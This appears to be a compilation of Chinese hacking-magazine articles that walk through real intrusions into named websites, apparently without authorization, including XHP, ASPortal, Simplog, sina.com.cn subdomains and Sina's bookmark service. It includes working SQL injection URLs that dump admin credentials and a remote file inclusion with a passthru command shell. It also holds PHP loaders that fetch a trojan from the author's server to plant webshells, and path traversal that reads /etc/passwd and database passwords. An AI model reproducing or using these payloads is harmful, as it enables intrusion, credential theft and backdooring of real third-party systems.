我们就想直接上传一个 PHP 的木马上去不就得到 WebShell 了么？然而现实是残酷的，我试着把经常使用的 PHP 木马 1stphp.php 传上去，和我预料的一样，顺利上传，如图 7 所示。


正当我高兴的时候，才发现我们上传的马儿不晓得传到哪里去了，路径找不到，开始以为在当前文件夹 `/inc/htmlarea/plugins/FileManager/` 下，但是没有；在上面图 7 中的文件名处点右键查看属性也看不到路径；直接点击也链接不过去；使用 WsockExpert 抓包也没找到路径。到底传到哪里去了呢？郁闷中！最后实在无奈就去分析代码，但是代码写得有点乱，还是找不到传到哪里去了！非常郁闷中。

## 五、综合利用 得到 WebShell

接着又试了好几个办法都不行，只能换个思路了：我已经把文件传上去了，也就是说在目标主机中是真实存在的了，那我们用 Linux 下的命令查找是应该可以找到的吧！思路有啦，就好搞了，还是利用我们上面的那个 EXP，先用 `php E:\www\www\test\XHP.php 203.XXX.XXX.31 /~simon/xhp_0_5/ ls 1stphp.php` 查找目标文件 1stphp.php，看到返回如图 8 所示。


看图 8，大家可能很奇怪，怎么只返回文件名，却没看到路径呢？答案是这样的：我们用这个 EXP 来执行命令时，是以其自身在服务器中执行时所在的路径为基准的，退回去看，上面查找文件时也是基于此 EXP 路径来寻找的，在上面过程中，我们并没找其他的路径，那说明 1stphp.php 是存在于 EXP 运行时所在的路径下的；那我们只要得到 EXP 运行在哪个路径下就能得到上面查找的文件路径了，也就能得到上传的文件路径了。OK，那我们再来看看 EXP 是在哪个路径下运行的吧，使用 EXP 执行 `php E:\www\www\test\XHP.php 203.194.148.31 /~simon/xhp_0_5/ pwd` 得到 EXP 执行时的路径，如图 9 所示。


图9 使用 pwd 显示 EXP 的执行目录


图11 XHP 的安装目录

在上面的返回值中我们看到其路径是 /home/simon/public_html/xhp_0_5/filemanager，和前面的网站地址（http://XXX.ilinktech.com.hk/~simon/xhp_0_5/index.php）比较可以得到 1stphp.php 存在于 filemanager 目录下，则其地址就应该是：http://XXX.ilinktech.com.hk/~simon/xhp_0_5/filemanager/1stphp.php，输入网址，看到我可爱的马儿总算出现在我面前，如图 10 所示。


图10 打开 1stphp.php 的页面

到这里我们总算拿到了目标站点的 WebShell，也基本上可以结束此行了。

不过，话说回来，这样操作意义不大，不但对别人原来结构有损害，而且网管因为以前账号被改就能很快发现被入侵了，所以没有什么意义。也提醒大家不要搞破坏，不要干损人不利己的事情。

## 六、事后闲逛 意外惊喜

上面我们该做的都做完了，我就用得到的 WebShell 在目标主机里随便看看，发现其目录是可以随便跳转的；也可以执行命令，这些对我们提升权限就有了更大的方便，这里主要讲漏洞，权限提升就不说了。再转到 XHP 的安装目录下看看，如图 11 所示。

大家看看是不是觉得不对劲呢？仔细看看，大家会发现我鼠标选中的那个文件：install.php.bal，觉得蹊跷么？大家知道 install 是安装的意思，则 install.php 就是该系统的自动安装导航文件，而这里的 install.php.bal 就是安装后系统自己修改了后缀的 install.php 文件。

要是你一直在看《黑客手册》的话，估计会想起来第二期杂志上第 31 页的《Apache 对文件后缀解析的分析利用》那篇文章，它讲述了关于 Apache 对后缀解析利用技术内容，这里安装文件安装完后自动修改其后缀为 .bal，是不属于默认解析的后缀，所以我们直接请求 install.php.bal 这个文件还是会按照 install.php 来运行的，如图 12 所示。


图12 直接运行 install.php.bal 来加以利用

这样你就可以重新安装了，并且重新设定管理员的账号、密码，进而能进入到后台进行下一步的操作。至于怎么利用，看过以前杂志的都很明白啦！偶就不多说啦！

## 七、总结

写完了，是不是觉得利用起来不难呢？多加练习就能掌握了，希望大家不要搞破坏，另外 XHP 官方也出了新的版本和补丁程序，使用这个系统的朋友请尽快修补以免遭不测！

（文章中用到的 PHP 木马 1stphp.php 已收录在光盘中）

> 编辑点评：文章中从 XHP 系统功能到其漏洞，再到 PHP 版 EXP 的使用都是一个新的概念，让大家长了不少见识；另外文章中综合使用 EXP 的功能和上传漏洞得到 WebShell 路径的方法也是比较新鲜的。给我们提供的一个思路是：遇到不好突破的障碍时我们可以试着变通，从另外一个角度来分析它；针对作者的思路，我们也可以在本地架构这个系统，然后上传文件再查看文件目录也可以找到上传文件的地址。

## ASPortal <= 3.1.1 版 SQL 漏洞分析利用

> 在这节中你可以学到：
- 怎样通过搜索引擎寻找目标
- 具体问题具体分析，找到可利用点
- ASPPortal 系统的 SQL 漏洞利用
- 漏洞利用的实际思路

ASPortal 是国外的一个 ASP 写的系统，功能十分强大，包含 Forum、Blog、News、RSS、Download 等等很多功能模块，支持 ACCESS 和 MS SQL 数据库。文中介绍了其 SQL 注入相关问题及利用思路。

## 漏洞分析

文中提到下载模块（download_click.asp）和新闻模块（News_Item.asp）中的参数存在过滤不严问题，可构造 SQL 语句进行利用；并提及后台参数也可能存在类似问题。

## 漏洞利用

先通过关键字和 URL 特征（如 content/news/News_Item.asp?content_ID）在搜索引擎中定位目标站点，再进一步测试可利用链接与数据库类型。


右栏继续说明通过可疑地址进行测试，结合工具探测数据库类型（Access / MS SQL），并根据已知字段（如 user 表中的 username、password）优化猜解流程。


> 小提示：
> 要是啊D中没有这个字段，可以自己添加的。

设置好了就可以猜解了，猜了半天就只猜出了管理员账号是 admin，密码死活猜不出来，如图4所示。


图4 啊D猜解出账号


图6 匹配了 UNION 查询

看上面的图4可以看到密码只猜到第一位（“6”）、第二位（6）以及一个“S”和“]”，还有几个就猜不出来了，很怪吧。但是我们从猜出来的几个来看，有数字、有字母、有特殊字符，看来这个管理员还晓得点安全常识，把密码搞得这么复杂。另外没猜出来的肯定又是什么很特殊的字符，怎么办，我们在这里卡住了。

继续查找资料，下了它的代码自己看了看，再看看数据库的字段，想起了以前经常使用的办法：UNION 查询。这个应该是支持的吧，那我们就可以构造一下看看了。大家都会 UNION 查询吧，原理就不多啰嗦了。我们前面用啊D已经猜出他的管理员账号是 admin，就可以直接查他的密码了。先随便提交一个看看能不能使用 UNION，看到如图5所示的结果：


图5 探测是否可用 UNION 查询

在图5中我们看到一句话，意思就是在查询的语句中前后两个的列数不匹配。哈，有戏了，看来是可以直接进行 UNION 查询的。出现上面的提示是因为我们匹配的列数不对，我们依次增加列数，直到提交下面这个语句时可以发现返回正确了，如图6所示：

```text
http://www.btioyo.org/content/News/news_item.asp?Content_ID=-1+UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16+FROM+users+where+username='admin'
```

我们提交的是从1到16这些字符，然后看到有些字符返回在页面上了，我们在这些地方用 username 和 password 等来替换就可以进行查询了。提交如下语句，可以查到密码、账号、email 以及 group_id 等信息，如图7所示：


图7 查询到管理员信息

```text
http://www.btioyo.org/content/News/news_item.asp?Content_ID=-1+UNION+SELECT+password,username,3,4,group_id,6,7,8,9,10,11,12,13,14,15,16+FROM+users+where+username='admin'
```

可以看到管理员账号是 admin，Email 是 tkorman@btioyo.org，也看到了那个 BT 的密码是 “6]S\]”（第4个字符打不出来，大家自己看图7），夸张吧，这种奇怪字符，难怪啊D猜不到，呵呵！接下来就是找管理员登录的地方了，这个不用费事，直接看代码结构就能到在 users/login.asp 这里，输入管理员信息就能进去了。里面的东西到底多精彩，我就不继续说了，有兴趣的朋友自己去发掘吧！

## 后记

测试完了去官方网站看了下，发现它发布了一个补丁，但是只修补了 News_Item.asp 这个文件，没有修复 download_click.asp 这个文件，看来修复不彻底哦。我也没来得及再去测试，有兴趣的朋友可以再测试下，或者读读它的代码，我觉得漏洞好像还不止这些，记得发现了和大家分享哈。

> （文章中用到的啊D注射器在光盘中有收录）

编辑点评：一款国外 ASP 写的系统的漏洞利用，作者在测试利用过程中把遇到的问题一一解决，最后顺利拿到管理员的密码；可惜作者没有继续下去，进入后台，想办法传个 ASP 的马，再搞定主机的权限。不过作为一次测试也不能强求那么多了，能拿到管理员密码以后能做的事就多了，大家可以自己发挥了；总的来说，作者思路一步扣一步，写得很清晰，很容易懂。

## 新思路窥网易 WAPBLOG 漏洞

光芒果([.S.T])

- 从本文你可以学到：
- 利用手机彩信入侵移动相册的思路
- 利用手机彩信控制站点的思路

上次我无意中发现了网易 WAPBLOG 的漏洞，一切全是幸运，没什么技术可言，但也就此结识了信任网易的朋友。时间过去也蛮久了，网易的 WAPBLOG 程序也早就换过了，安全性自然也提高了。但今天突然想到一个入侵网易 WAPBLOG 的新思路，但一切也只是一个思路，并没有真正实施，因为要实施这个想法还需要一定的硬件设备。

但我认为这个思路如果实施，成功的可能性很大，所以写出来与大家探讨一下，只期待结果。我们注意到，网易的这个 WAPBLOG 除了具备 BLOG 的功能外，还具备移动相册的功能。移动相册是通过彩信把手机中的图片发到指定号码，然后再把文件存进服务器的，当然可以发的不只是图片，还有铃声。发送过去的东西都是以原来的格式保存的。

我突然想到，如果发送的不是图片或铃声，而是其他文件会怎么样呢？照我推测应该也是按原文件格式保存的，因为我想没人会注意去过滤一个彩信的内容吧。这样一来不就明显存在一个上传漏洞了吗！只要我们用数据线把一个 JSP 木马导入手机，再通过彩信把这个 JSP 木马发送到网易 WAPBLOG 的指定号码，我们不就可以轻松得到一个 SHELL 了吗！

当然这是需要一定的硬件支持的，除了数据线之外，我们还需要一台智能手机，因为一般的手机是不能发送除图片和铃声格式外的其他文件的。当然，如果是普通手机，我们还可以试试把 HTM 文件后缀改为 JPG 然后导入手机发送看能不能执行。但因为网易用的是非 WIN 系统，所以估计成功的可能性不大。

不仅网易，其实还有很多类似的移动相册，而且能办得起这类相册的大都是一些大站。如果漏洞真的存在，那么许多大站不就可以被轻易入侵了吗？如果某个站用的是 WINDOWS-IIS 的，或许没有智能手机也可以被我们轻易挂马。当然上面说的都只是思路，具体情况怎么样没试过谁也还不知道。但既然想到了，我也要提醒一下大家或许还可以这样入侵，至少我是提醒了我网易的那个朋友的。

## 细析 Simplog 系列漏洞 迈向终极 WebShell

小天

- 从本文你可以学到：
- Simplog 的系列漏洞产生原因
- Simplog 的系列漏洞的利用
- 走向上线获得 WebShell 的方法

Simplog 是国外的一款用 PHP 脚本写的，可以支持 DB2、Firebird、FrontBase、MS SQL Server、MySQL、Oracle 等众多数据库的 Blog 系统，其功能强大、结构简单。更多功能你可以去它的官方网站（http://www.simplog.org）查看，我就不列举了。这个 Blog 系统在国内外使用的人都比较多，在 Google 中用关键字：Powered by Simplog 进行搜索，得到：约有 91,800 项符合查询结果。

用的人虽然不少，但它的安全性却不好，在短短的时间内，在它身上就发现了暴露绝对路径、SQL 注射、执行命令等系列漏洞。现在带你逐个分析并加以利用，在 Google 的搜索得到的结果中随便选择一个目标（http://www.***olshed.net/simplog/index.php）作为我们今天的测试目标，OK，上路吧！

## 漏洞一——暴露绝对路径

我们打开上面的网址，随便选择一篇文章阅读，会看到地址栏上的路径类似于 http://www.***olshed.net/simplog/archive.php?blogid=1&pid=3 这样的。该路径显示的是 blogid 为 1，pid 为 3 的文章，其中 pid 就是文章的序号。我们可以把 pid 的 3 换成字母 k，然后提交，就可以如图1所示暴出绝对路径了；也可以直接提交 archive.php?blogid=A（图2），或者提交 http://www.***olshed.net/simplog/archive.php 都可以暴出绝对路径。


像这里我们暴出的路径就是：/home/pwood001/public_html/simplog/adodb/adodb-errorhandler.inc.php。但是只暴路径好像也不算什么大漏洞，也没有什么实际的利用价值，只能看些文件目录的层次信息，算一个鸡肋。

```php
<?
// 省略一些无关代码
$blogid = $_REQUEST['blogid'];
if(!isset($blogid)) {
    $blogid = 1;
}
$blogInfo = new BlogInfo($blogid);
include("header.php");
?>
```

在 archive.php 文件中存在这样一段代码：

```php
<?php
// 省略一些无关代码
if(!isset($_REQUEST['blogid'])) {
    $sql = "select * from blog_list";
    $r = $db->Execute($sql);
    $blogid = $r->blog_id;
} else {
    $blogid = $_REQUEST['blogid'];
}
// 省略一些无关代码
?>
```

看上面的两段代码，在 index.php 和 archive.php 这两个文件中，$blogid 这个参数都是直接由 $_REQUEST 获得。自动全局变量 $_REQUEST 包含 $_POST、$_GET、$_COOKIE 三种取值方式，因此可以通过这三种方式提交 $blogid。由于没有过滤，产生 SQL 注入漏洞。

## 漏洞三——远程执行命令漏洞

继续看在 doc/index.php 的 11--17 行可以看到这样的代码：

```php
<?php
if(isset($_REQUEST['s'])) {
    include($_REQUEST['s'].".html");
}
?>
```

这里 $_REQUEST['s'] 未经过滤就拼接后缀 .html 并 include，可构造恶意 html 文件进行利用。可直接通过 GET 提交参数 s。

我们的思路是将执行命令语句保存为 HTML，放在自己的服务器上；在目标主机 allow_url_fopen=On 时，请求该 HTML 触发命令执行。首先写一段执行命令脚本：

```php
<?php
if (get_magic_quotes_gpc()) {
    $_REQUEST["cmd"] = stripslashes($_REQUEST["cmd"]);
}
// 提取 cmd 的值
ini_set("max_execution_time", 0);
echo "<br>S.T<br>";    // 返回值开始
passthru($_REQUEST["cmd"]); // 执行
echo "<br>S.T<br>";    // 返回值结束
?>
```

这段代码的意思是：获取 cmd 值并调用 passthru 执行。保存为 cmd.html 后上传到自己的服务器，例如 http://www.iceskysl.net/cmd.html。

提交参数 s=http://www.iceskysl.net/cmd，代码会拼接为 cmd.html 并打开；再提交 cmd 参数即可执行命令。示例：cmd=hostname。


图3 查看目标主机名

按同样方式可尝试读取 /etc/passwd，例如提交 cmd=cat%20/etc/passwd&s=http://www.iceskysl.net/cmd。


图4 显示 /etc/passwd 的信息

从 /etc/passwd 可得到账号信息，但加密口令在 /etc/shadow。文中尝试读取 shadow 未成功，提出可结合弱口令工具尝试 Telnet/SSH 获取 shell。

## 漏洞四——上传 WebShell

然后写到目标主机上，就可以得到 WebShell 了，说干就干！如下构造语句：

```php
<?
$f=file_get_contents("http://www.iceskysl.net/1stphp.txt");
$ff=fopen("../doc/pp.php","a");
fwrite($ff,$f);
fclose($ff);
?>
```

解释一下，1stphp.txt 是我的一个 PHP 木马文件，放在我服务器上，地址是：http://www.iceskysl.net/1stphp.txt，先用 file_get_contents 做连接，然后建立一个 pp.php 的文件，并把上面取得的内容写进去，最后关闭连接。

把这个文件保存为 creatfile.html，然后上传到我自己的服务器上，得到地址是：http://www.iceskysl.net/creatfile.html，然后我们就提交 s 为 http://www.iceskysl.net/creatfile，提交得到如图5所示的信息。


看到返回的信息是：Warning: fopen(../doc/pp.php): failed to open stream: Permission denied in http://www.iceskysl.net/creatfile.html on line 3

看来我们请求的 doc 目录是不可写操作，我们的马就写不进去，怎么突破？只能找能写的目录或者文件。幸好我们可以执行命令，那我们就可以提交 cmd 为 ls -la 来查看文件和目录的属性。于是提交：http://www.***olshed.net/simplog/doc/index.php?cmd=ls%20-la&s=http://www.iceskysl.net/cmd，返回如图6所示的信息，这个就是 doc 文件夹下的所有文件和目录以及其各自属性。


怎么知道哪个目录或文件允许写操作呢？这就涉及到 UNIX 的基本知识了：

- 在 UNIX 下文件的属性是用读（r）、写（w）、执行（x）来表示的，分为3组，分别代表 root、owner、everyone。所以我们需要找的是 rwxrwxrwx 这样的属性。

你可以点右键选项查看源代码，在里面搜索有没有这个字符串。我用的是 FireFox 浏览器，该浏览器具有在当前网页内搜索的功能，直接搜索 rwxrwxrwx 就能看到有这样的目录或文件了。

在上面我们没有发现，用 ../ 跳转查看其他目录下的文件和目录。当我提交：http://www.***olshed.net/simplog/doc/index.php?cmd=ls%20-la%20../../&s=http://www.iceskysl.net/cmd 时返回如图7所示的页面。


在上面我们看到有两个目录 myblog 和 phpBB2 的属性如下：

```text
drwxrwxrwx 15 pwood001.pwood001 4096 Apr 12 16:18 myblog
drwxrwxrwx 11 pwood001.pwood001 4096 Apr 13 09:07 phpBB2
```

前面的 d 说明是目录，其属性是允许任何人读、写、执行的。找到了就好办了，我们可以在 phpBB2 这个目录里写木马。

修改上面的那个 creatfile.html 内容为：

```php
<?
$f=file_get_contents("http://www.iceskysl.net/1stphp.txt");
$ff=fopen("../../phpBB2/1st.php","a"); // 主要是这里的路径
fwrite($ff,$f);
fclose($ff);
?>
```

就是修改上面写入木马的路径为 phpBB2 就可以了。修改好后重新上传到我自己的服务器上，地址还是前面说的那个，接着依然提交：http://www.***olshed.net/simplog/doc/index.php?s=http://www.iceskysl.net/creatfile，返回如图8所示的信息。


看到图8没有，像图5一样返回错误，不晓得成功了没。要是成功就会按照 creatfile.html 语句写一个 1st.php 的木马到 phpBB2 的目录下。于是提交 http://www.***olshed.net/simplog/doc/index.php?cmd=ls%20-la%20../../phpBB2&s=http://www.iceskysl.net/cmd，看 1st.php 是不是存在了，得到如图9所示的页面。

在图9中看到存在 1st.php，那我们就可以直接请求它的路径 http://www.***olshed.net/phpBB2/1st.php，得到 WebShell 了，如图10所示。

到此，测试也就结束了。

## 后记

本文是我测试时的一个完整思路，按照我的思路一步接着一步。后来学完了回头重新测试了一下，发现自己比较大意，没有发现 Simplog 的 cache 目录也是可写的。大家利用时可直接在这个目录里写 WebShell。其实仔细想想也是，cache 是随时都可能生成的，肯定需要写权限啦。害我还绕到更上层的 phpBB2 目录写 WebShell，不过也不亏，至少提醒我下次要更细心，也告诉了你：遇到障碍时，想到办法就突破，千万别在一棵树上吊死！

（文章用到的 creatfile.html、cmd.html、1stphp.php 在光盘中有收录）

编者评语：作者对 Simplog 的几个漏洞进行分析解析，环环相扣，前后呼应，在遇到障碍时能综合所能利用的办法进行突破，思维很发散，希望你能学会这种灵活的思维方式。值得补充的是：既然可以执行命令，那应该也可以用 UNIX 里的 wget 来下载一个 PHP 的木马到服务器，前提是也要取得可写的目录。后来和作者联系说到这个思路，得到作者的肯定，读者可以自己去实践下。


## 雕虫小技之 *nix 专辑

## 使用 lilo/grub 时找回忘记了的 root 口令

- 三种办法：
- 在系统进入单用户状态，直接用 `passwd root` 去更改。
- 用安装光盘引导系统，进入 linux rescue 状态，将原来 `/` 分区挂接上来。
- 将本机的硬盘拿下来，挂到其他的 linux 系统上，采用的方法与第二种相同。

```bash
cd /mnt
mkdir hd
mount -t auto /dev/hdaX（原来 / 分区所在的分区号） hd
cd hd
chroot ./
passwd root
```

- 四、lilo
- 在出现 `lilo:` 提示时键入 `linux single`。
- 回车可直接进入 linux 命令行。
- `#vi /etc/shadow`，将第一行（以 root 开头）中 root 后和下一个 `:` 前的内容删除。
- 保存后 `#reboot` 重启，root 密码为空。

- 五、grub
- 在出现 grub 画面时，用上下键选中平时启动 linux 的那一项，然后按 `e`。
- 再次选中 `kernel /boot/vmlinuz-2.4.18-14 ro root=LABEL=/` 这一行，按 `e`。
- 在命令行末尾加入 `single`，例如：`kernel /boot/vmlinuz-2.4.18-14 single ro root=LABEL=/`。
- 回车返回后按 `b` 启动，进入 linux 命令行。
- `#vi /etc/shadow`，将第一行（以 root 开头）中 root 后和下一个 `:` 前内容删除，保存。
- `#reboot` 重启，root 密码为空。

4月8号，我参加了落伍者论坛北京聚会，见到了 Discuz! 作者、新浪副总裁、红杉中国副总裁及做个人网站做得极有前途的一大批人，有了几点感想。第一，那天的聚会大家讨论的所有内容都集中在个人网站如何实现赢利方面，很多个人站长也做得很成功。这让我联想到做安全也并非是黑客的唯一出路。第二，所有的个人站长在聚会上，就网站的发展前景困难方面只是提到了带宽不够、Web 程序不稳定等，都没有谈及网站的安全问题。他们基本上都忽略了这一点或根本就没有安全意识，这让我感到很寂寞。本来我想找个机会向新浪副总裁提一下 sina 的安全问题，可是由于性格羞涩的原因没有付诸行动。

难道黑客注定就该是寂寞的吗？在当前经济时代，学网络安全者的出路究竟在哪里？做游戏、办培训、开网络安全公司还是个人站？我陷入了一阵思考之中。总觉得黑客精神在当前社会要与传统的黑客精神决裂了……唉，头疼。不过我想，只要继续坚持学习就肯定没错。所以，在五一长假中，还是来翻看我们的《非安全手册》吧。

## 对 sina.com.cn 的一次安全检测

剑心 [B.C.T]

最近学习了一些简单的 MySQL 注入知识，也对 PHP 下的注入有了一定的了解，就想找个机会检验下自己的学习成果，顺便把学到的知识做个总结，于是上网想找几个目标来实习下！看了那么多的牛人对 163.com 做安全检测，我想那就试试可以跟 163.com 齐名的另一个网站新浪网，看看它的安全性如何吧。

要想最快地找到网站的系统漏洞就要用扫描，要想最快地找到脚本方面的漏洞就应该用 Google 了。我在 Google 里这样搜索：`php?id= site:sina.com.cn`，这句话的意思是在 sina.com.cn 中找寻链接有 php?id= 这样的信息。因为 PHP 注入的特性（PHP 默认将传递的参数中的“=”字符做了转换，所以对于字符类型的变量默认情况下很难注入），所以我们主要找 id= 这样的地方，很有可能就是传递整型数字变量的地方。

```
http://XX.sina.com.cn/course/coursedetail.php?id=1122
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and 1=1
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and 1=2
http://XX.sina.com.cn/course/coursedetail.php?id=1122/*inclovesw
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and ord(mid(version(),1,1))>51/*
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and ord(mid(user(),1,1))=114/*
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and length(load_file(0x2F6574632F706173737764))>0/*
```

正文其余部分围绕上述 URL 测试结果展开，包含对注入点存在性的判断、数据库类型（MySQL）推断、版本判断、user() 判断及 load_file 权限验证等分析。

少字段吧！手工加 union 然后一直加太麻烦，提交：`http://XX.sina.com.cn/course/coursedetail.php?id=1122 order by 10/*` 正常返回，说明字段大于 10 个；继续测试 `order by 20/*` ……到 40 的时候出错，说明字段在 30 和 40 之间。最终确定字段数是 33。再提交：`http://XX.sina.com.cn/course/coursedetail.php?id=1122 order by 33/*` 正常返回。然后提交：`http://XX.sina.com.cn/course/coursedetail.php?id=1122 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33/*`。返回结果如图 8 所示，说明支持 Union，并且有多个字段是字符类型且可显示。

在进一步注入之前，我们先尝试寻找后台入口。尝试目录如 `admin/`、`manage` 等，最终在 `/admin` 找到登录页面（如图 7）。文中说明：注入定位到登录相关字段很有帮助，查看源文件可见用户名字段为 `username`，密码字段为 `password`，推测表名可能是 `user` 或 `admin`。

因为是 4.0 以上数据库，不必逐位猜字段。继续将结果 Union 到页面，提交：`http://XX.sina.com.cn/course/coursedetail.php?id=1122 and 1=2 union select 1,2,3,4,5,6,user(),version(),9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33/*`。根据返回可在 7、8 位置看到用户名和版本。继续注入：`... union select ... from users/*` 返回错误；改为 `from admin/*` 正常，说明存在 `admin` 表。再结合字段注入：`... union select 1,2,3,4,5,6,user(),version(),9,10,11,12,13,14,username,password,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33 from admin/*`，返回显示用户名与密码（MD5）。

试把中文的用户名作为密码登录，然后再拆分登录，还是不行，简单的社会工程学也失败了！

分析一下，我们提交的这个 union 查询是查询出 admin 的第一条记录的，因为我们没有做任何的限制条件，既然第一个记录的密码破解不出来，那么其他的记录很可能被破出来哦！用户越多，弱口令的可能性就越大。提交：

```
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and 1=2 union select 1,2,3,4,5,6,user(),version(),9,10,11,12,13,14,username,password,id,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33 from admin/*
```

发现没有报错，并且原来 17 的位置是 3，说明 id 这个字段是存在的，并且是从 3 开始的，那么一切就简单了。提交：

```
http://XX.sina.com.cn/course/coursedetail.php?id=1122%20and%201=2%20union%20select%201,2,3,4,5,6,user(),version(),9,10,11,12,13,14,username,password,id,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33%20from%20admin%20where%20id>3/*
```

这条语句是给查询语句加上限制条件，出来结果如图 11 所示。哈哈，又出来一个用户名和密码了吧！拿它的密码去破解一下，发现是 123123，太好了，果然是个弱口令，如果这个不行的话，我们可以接着往下找弱口令用户，一定会存在的哦！剩下的就好办了。去后台用得到的用户名和密码登录成功，如图 12 所示。后台还真有不少功能，一个学校图片管理的地方吸引了我，赶紧去看看，发现是有上传的。选择一个 PHP 后门上传试试，晕！居然没有提示任何错误，去图片管理查看新上传的图片属性就得到我们的后门地址了，如图 13 所示。至此，对 sina 关于脚本的小小安全检测结束了，由于管理员小小的疏忽，导致我们成功地拿到了 webshell。后台可以更改所有人的密码以及一些新站的域名信息哦，我不敢动，怕怕！

很多系统往往就是因为一个参数没有过滤而导致被攻陷的，服务器在某些地方倒是做了过滤，不过还是被我发现了一个缺少过滤的参数，呵呵，就算是一次练手吧！文章很简单，有什么问题欢迎到 NoHack 论坛或者 BCT 讨论，我的 ID 是剑心大人。编辑点评：相信有了这篇文章，大家就会知道攻破一个大的门户网站也不是件难事。剑心入侵了 sina 的一个分站，在文章里说不过是新学了一点 PHP 注入技术练手，这是一种很好的 hack 心态。如果你要去检测一个网站，在没有动手之前就想入侵的站如何大、如何有名气，肯定安全，那我估计你的技术也只能发挥出一半水平了。黑客入侵是一种竞技，心态很重要。

## 对手新浪收藏夹漏洞的一次测试

Zizzy [Wolves Security Team]

对于大站的安全性，我们很少看得到系统上的漏洞、注入漏洞或者其他漏洞，但安全绝不仅仅是这些问题，还有好多是程序员的细节问题。那么，像新浪这样的门户网站是不是也存在这些情况呢？对于网站，站越大，漏洞可能也就越多，问题也就越严重。等什么呢，接着往下看吧。

一天，我发现我电脑上的本地收藏夹已经满屏了，而且还乱七八糟的，就开始考虑找个网络在线收藏夹来用，于是就找到了新浪 vivi 收藏夹。这个大家乐该都熟悉吧。申请了个通行证后，随后就叫我安装插件，等待了下 OK 了，就在这时，提示成功安装插件的这段 URL 引起了我的注意（图 1）。

地址中 tmpl 那里的变量调用引起了我的注意，它直接调用 intro.html 这个文件，这样直接调用文件一般都是有问题的，于是我决定顺便测试下 tmpl 这个变量。开始的几次输入由于没搞清路径，走了很多弯路，后来我把 tmpl 这里换成 ../../../index.php，结果，哗，首页的 PHP 代码一下子就被读了出来（图 2）。

OK，到这里你大体也清楚了收藏夹是什么漏洞了吧。接着，我把 include 的文件通过这样的方式一个一个地读出来，基本上都被哗哗地读出来，再点些查看源文件，代码就工工整整地出来了。感觉好爽啊，因为不像其他漏洞那样还要用什么工具，一点都不麻烦。

现在，你说下一步该做什么？当然是拿 MySQL 密码啊！于是我就去读 common 目录下的 conf.php 这个文件。这是个配置文件，里面装着 MySQL 密码。当我读的时候才傻了眼，页面居然是空白的！当时我也不知道为什么，我想应该是权限问题吧。可是不可能啊，conf.php 没权限，那新浪怎么去读取和使用数据啊？我又试了一次，还是空白，之后我就去查看源文件。Yeah！原来是躲在这里面啊！（图 3）

居然还有包含，那再读一个文件，我怎么感觉像迷宫一样啊？再读之后，当然是拿到了 MySQL 密码。开始我很高兴，可是一下子又被泼冷水了，内网啊，内网 MySQL 服务器，一台读、一台写。冷水……我被水淹死了！接下来，我查看了下 /proc/cpuinfo，发现是台安了三个 Intel(R) Xeon(TM) CPU 3.06GHz 的服务器，口水流啊，你说我的电脑要是安了这些东西多好啊……

之后，我想 /etc/passwd 这样的东西是绝对可以读的，于是就在 URL 把变量改为 ../../../../../../../../etc/passwd，读出密码档（图 4）。

OK，密码档都被搞出来了，这个漏洞也该算 Web 安全里比较严重的一个漏洞了吧。

一番折腾后没有任何进展，我把 Maple-X（我的好兄弟）叫来一起弄，于是就把每个能读到的文件都打包下来。你问我拿来做什么？服务器没进展，当然是分析源代码了。面对一堆没用的密码档和内网 MySQL，没办法继续下去，只有好好研究研究源代码了。

时间一秒一秒地过去了，依旧没有任何进展。尽管读到了很多有用的信息，比如内网 FTP 等，但是价值对于我们来说等于零。面对这么好的一个漏洞，继续研究下去需要时间和精力，可是这些现在我都没有。一番选择之后，我决定不再折腾自己了，因为能发现新浪网这么严重的一个漏洞我也就知足了，至少我不敢奢望得到个 webshell 或者直接拿下眼前这台 Linux。

写到这里，如果我直接说本文结束了，肯定有人要扁我，毕竟授人鱼不如授人渔，多数读者都想知道是怎么出现这个漏洞的。那好，既然我把所有的源代码都打包了，那就好好分析下漏洞的成因吧。

首先，漏洞出现在 user.php 这个文件上，那我们就来看看 user.php 的部分代码：

```php
function get_cgi(){
    global $s_cgival;
    if (isset($_REQUEST['tmpl'])){
        $s_cgival['tmpl'] = $_REQUEST['tmpl'];
    }
    $t = new Template('./tmpl/default/');
}
```

OK，这也就是 URL 里出问题的那个变量，对于 REQUEST 的变量 tmpl 无任何过滤。那出问题的函数呢？经过检查，在 template.php 里找到了代码：

```php
function loadfile($handle){
    if (isset($this->file[$handle])){
        $filename = $this->file[$handle];
        $str = implode('', @file($filename));
        if (!empty($str)){
            ...
        }
    } else {
        $this->halt('loadfile: While loading $handle, $filename does not exist or is empty.');
    }
}
```

> $this->halt('loadfile: While loading $handle, $filename does not exist or is empty.');

看到这里，对于读取的文件没有过滤，导致可读取任意文件源码，甚至 /etc/passwd 等敏感文件。随后作者做了总结，并提到这是函数 file() 导致的源码与密码档泄露问题。

> 【编者点评】作者对 PHP 源码研究不多，但思路可结合其它漏洞拿 webshell，再进一步进入内网数据库等。

## PHP Advanced Transfer Manager

作者介绍了该程序的使用背景：空间支持 PHP 不支持 MySQL，发现 PHP Advanced Transfer Manager 程序并测试其漏洞。

图 2 以 admin 身份登录后台。文中给出可编辑文件的请求参数，并继续分析 configure.php 的关键代码。

```php
case 'ACTION_EDITFILE':
    $filename = getGetVar('filename');
    ...
    show_file_editor($filename);
    break;
```

- Bug1：泄露管理员 MD5 密码
- 后台写入 webshell

图 1 展示可直接查看密码资料。文中说明用户密码文件位于 `/phpATM/users/[username]`，并讨论 MD5 破解与后续利用。

通过“../”我们就可以修改 index.php 的内容了，修改网站上级目录可以通过“../../”来达到目的。其实这只是个比较简陋的 shell 罢了，只能够改、查看文件而已，如图 3。

当然也可以在这个时候入 webshell 了，写了探测 PHP 环境的 `<?phpinfo();?>`，然后运行，如图 4 就能探测它的环境了。

从上面的过程来看，这个 bug 是个鸡肋，只有管理员大叔才能用，在利用前你还必须想怎么破那个 MD5 哦，不爽！

